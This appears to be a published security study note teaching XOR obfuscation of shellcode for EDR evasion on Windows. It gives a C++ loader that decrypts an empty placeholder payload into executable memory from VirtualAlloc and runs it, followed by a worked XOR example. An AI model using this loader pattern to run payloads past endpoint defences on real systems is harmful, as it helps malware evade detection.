 ```yaml
---
{"dg-publish":true,"permalink":"/attack-computer/attack-windows/1a-windows-defense-mechanism/2-edr-evasion/1b-xor-based-self-decrypting-payload-with-memory-execution/","noteIcon":"","created":"2025-04-15T14:11:19.620-04:00"}
---
```


















# **1. XOR-Based Self-Decrypting Payload (C++)**
### **Step 1: Encrypt the Shellcode**
```cpp
#include <iostream>
#include <windows.h>  // For PBYTE type

/*
	- pShellcode : Base address of the payload to encrypt 
	- sShellcodeSize : The size of the payload 
	- bKey : A random array of bytes of specific size
	- sKeySize : The size of the key
*/
void XorByInputKey(PBYTE pShellcode, SIZE_T sShellcodeSize, PBYTE bKey, SIZE_T sKeySize) {
    for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
        if (j >= sKeySize) {
            j = 0;  // Reset key index when reaching the end
        }
        pShellcode[i] ^= bKey[j];  // XOR encryption
    }
}

int main() {
    unsigned char shellcode[] = { /* Your original shellcode */ };
    SIZE_T shellcode_size = sizeof(shellcode);

    unsigned char key[] = { 0xAA, 0xBB, 0xCC }; // Multi-byte key
    SIZE_T key_size = sizeof(key);

    std::cout << "Original Shellcode: ";
    for (SIZE_T i = 0; i < shellcode_size; i++) {
        std::cout << "0x" << std::hex << (int)shellcode[i] << " ";
    }
    std::cout << "\n";

    // Encrypt the shellcode
    XorByInputKey(shellcode, shellcode_size, key, key_size);

    std::cout << "Encrypted Shellcode: ";
    for (SIZE_T i = 0; i < shellcode_size; i++) {
        std::cout << "0x" << std::hex << (int)shellcode[i] << " ";
    }
    std::cout << "\n";

    // Decrypt before execution
    XorByInputKey(shellcode, shellcode_size, key, key_size);

    // Allocate executable memory
    void* exec_mem = VirtualAlloc(NULL, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!exec_mem) {
        std::cerr << "[-] VirtualAlloc failed!\n";
        return 1;
    }

    // Copy decrypted shellcode to allocated memory
    memcpy(exec_mem, shellcode, shellcode_size);

    // Execute the shellcode
    ((void(*)())exec_mem)();

    return 0;
}
```

----

## **Concept Overview**
- You have a **payload (`pShellcode`)**, which is a binary array.
- You have a **multi-byte key (`bKey`)**, used for XOR encryption.
- The function **XORs each byte of `pShellcode` with the corresponding byte in `bKey`**.
- If the key is **smaller than the payload**, it **loops (cycles) back to the beginning** of the key.

---

## **XOR Encryption Process**
```mermaid
sequenceDiagram
    participant Payload as Shellcode (pShellcode)
    participant Key as XOR Key (bKey)
    participant Output as Encrypted Data
    
    loop For each byte in pShellcode
        Payload->>Key: Get key byte (bKey[j])
        Key->>Payload: XOR with payload byte
        Payload->>Output: Store encrypted byte
        Key-->>Payload: Move to next key byte (j+1)
        alt If j >= sKeySize
            Key->>Payload: Reset j to 0 (Key starts again)
        end
    end
```

---

## **Step-by-Step Walkthrough (With Example)**
Let's assume:
- **`pShellcode` (shellcode)** = `0x41, 0x42, 0x43, 0x44, 0x45` (`A, B, C, D, E`)
- **`bKey` (multi-byte key)** = `0xAA, 0xBB, 0xCC`
- **Encryption Process:**
  - `pShellcode[i] ^= bKey[j]` → Each byte in shellcode is XORed with the key.
  - `j` increments through the key, cycling back when it reaches the end.

| `i` (index) | `pShellcode[i]` (original) | `bKey[j]` (key) | XOR Output (`pShellcode[i] ^= bKey[j]`) |
|------------|-------------------------|----------------|--------------------------------|
| 0          | `0x41` (A)               | `0xAA`         | `0xEB`                        |
| 1          | `0x42` (B)               | `0xBB`         | `0xF9`                        |
| 2          | `0x43` (C)               | `0xCC`         | `0x8F`                        |
| 3          | `0x44` (D)               | `0xAA`         | `0xEE` (Key loops)            |
| 4          | `0x45` (E)               | `0xBB`         | `0xFE` (Key loops)            |

So, the **encrypted payload** will be:
```
0xEB, 0xF9, 0x8F, 0xEE, 0xFE
```

If you **call `XorByInputKey` again on the encrypted data**, it **decrypts back to the original** (XOR is symmetric).

---

## **Visualization: How Key Loops Over Payload**
```plaintext
Original Shellcode:    A    B    C    D    E
Hex Representation:   41   42   43   44   45
XOR Key (Repeating):  AA   BB   CC   AA   BB
Encrypted Output:     EB   F9   8F   EE   FE
```
Since the **key is shorter than the shellcode**, it **cycles back** after the third byte.

---

## **Memory Representation**
- **Before Encryption:**
```plaintext
pShellcode:   [ 0x41, 0x42, 0x43, 0x44, 0x45 ]  (A, B, C, D, E)
bKey:         [ 0xAA, 0xBB, 0xCC ]  (Key repeats every 3 bytes)
```

- **After XOR Encryption:**
```plaintext
pShellcode:   [ 0xEB, 0xF9, 0x8F, 0xEE, 0xFE ]
```

- **After XOR Decryption (Reapplying XOR on Encrypted Data):**
```plaintext
pShellcode:   [ 0x41, 0x42, 0x43, 0x44, 0x45 ]  (A, B, C, D, E restored)
```

---

